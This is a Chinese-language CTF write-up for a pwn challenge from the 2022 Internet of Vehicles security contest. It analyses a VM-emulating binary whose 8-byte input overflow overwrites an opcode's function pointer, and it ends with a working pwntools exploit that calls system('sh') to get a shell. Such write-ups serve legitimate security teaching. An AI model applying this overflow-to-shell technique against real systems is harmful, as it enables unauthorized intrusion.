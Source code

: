 ```yaml
---
layout: article
pageview: true
key: 2022-04-14-IoV2022-pwn-wp
title: 车联网安全大赛2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


# 车联网安全大赛2022Pwn题WP

<!-- more -->

## chall

第一道做出来的vm题，虽然是赛后复现的

没有PIE，没有去符号表，比较友善

题目申请了一个很大的堆，并且在堆的后半部分按规律写入了`nop mov mvi`三个函数的地址，在`ptr+24`处读入用户输入后开始模拟

![image.png](https://s2.loli.net/2022/04/15/MqH5pLbgVuT9XPk.png)

![image.png](https://s2.loli.net/2022/04/15/IxweSDzl15uoJPF.png)

每次模拟指令会从`ptr+8`处读取`pc`，再读取`ptr+12+pc`处的字符`mem`，则此次模拟的函数为`ptr+mem+2050`处储存的函数，以`ptr`为参数执行函数后，`pc`++

题目的漏洞点为，输入数据时会多溢出8个字节，可以覆盖字符`\x00`对应的函数，而且题目中提供了`system`函数

`mvi`函数的功能是根据指令将后一个字符复制到`ptr`的前几位，配合溢出可以构造`payload`执行`system("sh")`

![image.png](https://s2.loli.net/2022/04/15/aeKpPHtQhbRZSMU.png)

题目比较迷惑的一点是，输入的内容存在`ptr+24`，取内存时却是从`ptr+12`开始取，所以当`pc`为12前，会执行12次`\x00`对应的函数

搞明白程序流程后，exp就很简单了

```python
from pwn import *
context(arch='amd64')

local=1
_elf='./chall'

elf=ELF(_elf)

def getConn():
    if local ==1:
        return process(_elf)
    else:
        return remote(addr,port)

def debug(p,cmd=None):
    if local==1:
        gdb.attach(p,cmd)

nop=0x401437
mov=0x40165b
mvi=0x401505
system=0x4010d0

p=getConn()

p.sendline((b'\x3e\x73\x06\x68\x00').ljust(0x3ff8,b'@')+p64(system))

p.interactive()
```